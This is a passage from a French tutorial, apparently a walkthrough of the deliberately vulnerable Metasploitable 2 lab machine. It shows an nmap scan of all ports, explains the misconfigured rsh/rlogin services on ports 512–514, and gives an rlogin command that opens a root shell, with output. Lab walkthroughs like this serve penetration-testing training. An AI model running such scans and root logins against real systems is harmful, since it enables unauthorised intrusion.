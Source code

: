 ```text

root@ubuntu:~# nmap -p0-65535 192.168.1.131 
Starting Nmap 5.61TEST4 ( http://nmap.org ) at 2012-05-31 21:14 PDT 
Nmap scan report for 192.168.99.131 
Host is up (0.00028s latency). 
Not shown: 65506 closed ports 
PORT      STATE SERVICE 
21/tcp    open  ftp 
22/tcp    open  ssh 
23/tcp    open  telnet 
25/tcp    open  smtp 
53/tcp    open  domain 
80/tcp    open  http 
111/tcp   open  rpcbind 
139/tcp   open  netbios-ssn 
445/tcp   open  microsoft-ds 
512/tcp   open  exec 
513/tcp   open  login 
514/tcp   open  shell 
1099/tcp  open  rmiregistry 
1524/tcp  open  ingreslock 
2049/tcp  open  nfs 
2121/tcp  open  ccproxy-ftp 
3306/tcp  open  mysql 
3632/tcp  open  distccd 
5432/tcp  open  postgresql 
5900/tcp  open  vnc 
6000/tcp  open  X11 
6667/tcp  open  irc 
6697/tcp  open  unknown 
8009/tcp  open  ajp13 
8180/tcp  open  unknown 
8787/tcp  open  unknown 
39292/tcp open  unknown 
43729/tcp open  unknown 
44813/tcp open  unknown 
55852/tcp open  unknown 
MAC Address: 00:0C:29:9A:52:C1 (VMware)
```

Chacun de ces points d’entrée est susceptible de comporter une faille quelconque. 

### 2. Services : les bases UNIX

Les ports TCP 512, 513 et 514 sont connus comme des services « `r` » \(Berkeley `r-services` et `r-commands` tels que `rsh`, `rexec` et `rlogin`\), et ont été mal configurés pour autoriser un accès à distance de n’importe quel hôte. Pour pouvoir tirer parti de ces failles, il va nous falloir être sûrs que **rsh-client** est installé et nous pourrons lancer la commande suivante en tant que root sur la machine attaquante. Si une demande nous est faite d’une clé SSH, cela voudra dire que l’utilitaire **rsh-client** n’est pas installé et que le système utilise par défaut SSH.

```text

# rlogin -l root 192.168.1.131 
Last login: Fri Jun  1 00:10:39 EDT 2012 from :0.0 on pts/0 
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 
UTC 2008 i686 
root@metasploitable:~# 
```
